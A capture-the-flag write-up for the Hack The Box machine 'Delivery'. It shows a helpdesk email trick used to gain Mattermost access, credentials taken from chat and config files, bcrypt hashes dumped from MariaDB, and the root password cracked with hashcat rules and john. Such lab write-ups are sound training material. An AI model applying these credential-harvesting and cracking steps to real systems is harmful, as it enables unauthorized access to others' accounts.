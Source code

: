 ```yaml
---
permalink: /htb/delivery
title: Delivery
---
```


<br>

As always, begin with nmap:


```
[connor@fedora delivery]$ nmap 10.10.10.222  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-30 07:56 AEST  
Nmap scan report for 10.10.10.222  
Host is up (0.79s latency).  
Not shown: 998 closed tcp ports (conn-refused)  
PORT   STATE SERVICE  
22/tcp open  ssh  
80/tcp open  http  
  
Nmap done: 1 IP address (1 host up) scanned in 70.49 seconds
```


Add the hostname to /etc/hosts:

```
10.10.10.222 delivery.htb helpdesk.delivery.htb
```

Then we can go to http://helpdesk.delivery.htb/, click 'open a new ticket', and fill in details.

I used email: user@delivery.htb

Then I got 'You may check the status of your ticket, by navigating to the Check Status page using ticket id: 4774706.

If you want to add more information to your ticket, just email 4774706@delivery.htb.'

Then use the email 4774706@delivery.htb to sign up here http://delivery.htb:8065/signup_email

Then go back and click 'check ticket status' with  user@delivery.htb and ticket id: 4774706.

We see a confirmation URL <http://delivery.htb/:8065/do_verify_email?token=yfb6qoounnptzz6biskzss9mq79hhp1h7nkkij4sgtpa41rid9p8d1zb8km36ph6&email=4774706%40delivery.htb>

Now we have access to the Internal team!

There's credentials in the chat:

@developers Please update theme to the OSTicket before we go live. Credentials to the server are maildeliverer:Youve_G0t_Mail!

```
[connor@fedora delivery]$ ssh maildeliverer@10.10.10.222  
maildeliverer@10.10.10.222's password:    
Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64  
  
Last login: Mon Aug 29 18:16:43 2022 from 10.10.16.5   
maildeliverer@Delivery:~$ ls  
user.txt  
maildeliverer@Delivery:~$
```


Privesc

We can find the mattermost config and look through it:

```
maildeliverer@Delivery:~$ less /opt/mattermost/config/config.json
```


There are more creds: `mmuser:Crack_The_MM_Admin_PW`

```
maildeliverer@Delivery:~$ mysql -u mmuser -p  
Enter password:    
Welcome to the MariaDB monitor.  Commands end with ; or \g.  
Your MariaDB connection id is 69  
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10  
  
Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.  
  
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement  
.  
  
MariaDB [(none)]> use mattermost;  
Reading table information for completion of table and column names  
You can turn off this feature to get a quicker startup with -A  
  
Database changed  
MariaDB [mattermost]> describe Users;  
+--------------------+--------------+------+-----+---------+-------+  
| Field              | Type         | Null | Key | Default | Extra |  
+--------------------+--------------+------+-----+---------+-------+  
| Id                 | varchar(26)  | NO   | PRI | NULL    |       |  
| CreateAt           | bigint(20)   | YES  | MUL | NULL    |       |  
| UpdateAt           | bigint(20)   | YES  | MUL | NULL    |       |  
| DeleteAt           | bigint(20)   | YES  | MUL | NULL    |       |  
| Username           | varchar(64)  | YES  | UNI | NULL    |       |  
| Password           | varchar(128) | YES  |     | NULL    |       |  
| AuthData           | varchar(128) | YES  | UNI | NULL    |       |  
| AuthService        | varchar(32)  | YES  |     | NULL    |       |  
| Email              | varchar(128) | YES  | UNI | NULL    |       |  
| EmailVerified      | tinyint(1)   | YES  |     | NULL    |       |  
| Nickname           | varchar(64)  | YES  |     | NULL    |       |  
| FirstName          | varchar(64)  | YES  |     | NULL    |       |  
| LastName           | varchar(64)  | YES  |     | NULL    |       |  
| Position           | varchar(128) | YES  |     | NULL    |       |  
| Roles              | text         | YES  |     | NULL    |       |  
| AllowMarketing     | tinyint(1)   | YES  |     | NULL    |       |  
| Props              | text         | YES  |     | NULL    |       |  
| NotifyProps        | text         | YES  |     | NULL    |       |  
| LastPasswordUpdate | bigint(20)   | YES  |     | NULL    |       |  
| LastPictureUpdate  | bigint(20)   | YES  |     | NULL    |       |  
| FailedAttempts     | int(11)      | YES  |     | NULL    |       |  
| Locale             | varchar(5)   | YES  |     | NULL    |       |  
| Timezone           | text         | YES  |     | NULL    |       |  
| MfaActive          | tinyint(1)   | YES  |     | NULL    |       |  
| MfaSecret          | varchar(128) | YES  |     | NULL    |       |  
+--------------------+--------------+------+-----+---------+-------+  
25 rows in set (0.001 sec)  
  
MariaDB [mattermost]> select Username, Password from Users;  
+----------------------------------+--------------------------------------------------------------+  
| Username                         | Password                                                     |  
+----------------------------------+--------------------------------------------------------------+  
| user                             | $2a$10$XF6KLh8itiBsLQV9ooQmpu6G62fWtDz2OxItmDYJNbxS01cS75mg. |  
| surveybot                        |                                                              |  
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |  
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |  
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |  
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |  
| channelexport                    |                                                              |  
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |  
+----------------------------------+--------------------------------------------------------------+  
8 rows in set (0.001 sec)
```

From the chat we know the password is some variation of PleaseSubscribe!

```
[connor@fedora delivery]$ wget https://raw.githubusercontent.com/hashcat/hashcat/master/rules/best64.rule
[connor@fedora delivery]$ echo PleaseSubscribe! | hashcat -r best64.rule --stdout > wordlist  
[connor@fedora delivery]$ vim hash  
[connor@fedora delivery]$ cat hash  
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO  
[connor@fedora delivery]$ john hash --wordlist=wordlist  
Using default input encoding: UTF-8  
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])  
Cost 1 (iteration count) is 1024 for all loaded hashes  
Will run 4 OpenMP threads  
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status  
PleaseSubscribe!21 (?)
```

We've cracked the root password!

```
maildeliverer@Delivery:~$ su  
Password:    
root@Delivery:/home/maildeliverer# cd /root  
root@Delivery:~# ls  
mail.sh  note.txt  py-smtp.py  root.txt  
root@Delivery:~# cat note.txt    
I hope you enjoyed this box, the attack may seem silly but it demonstrates a pretty high risk vulnerability I've seen several times.  The inspiration for the  
box is here:    
  
- https://medium.com/intigriti/how-i-hacked-hundreds-of-companies-through-their-helpdesk-b7680ddc2d4c    
  
Keep on hacking! And please don't forget to subscribe to all the security streamers out there.  
  
- ippsec
```

